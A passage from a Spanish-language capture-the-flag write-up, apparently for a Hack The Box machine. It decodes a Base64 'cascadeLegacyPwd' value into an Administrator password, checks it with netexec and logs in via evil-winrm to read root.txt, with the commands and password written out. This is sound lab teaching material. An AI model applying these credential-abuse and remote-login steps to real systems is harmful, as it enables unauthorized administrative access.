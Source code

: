 Comprobamos que en un campo aparece "cascadeLegacyPwd" con lo que parece ser una contraseña encodeada nuevamente en Base64.

<figure><img src="../../../../../.gitbook/assets/1262_vmware_B76Yo3kBZZ.png" alt=""><figcaption></figcaption></figure>

Procederemos a desencodear y nos aparece una contraseña en texto plano, validaremos con **netexec** de que las credenciales son válidas para el usuaro Administrator, nos conectarmos haciendo uso de **evil-winrm** y comprobaremos la flag de **root.txt**.

{% code overflow="wrap" fullWidth="false" %}
```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo

netexec winrm 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'

evil-winrm -i 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
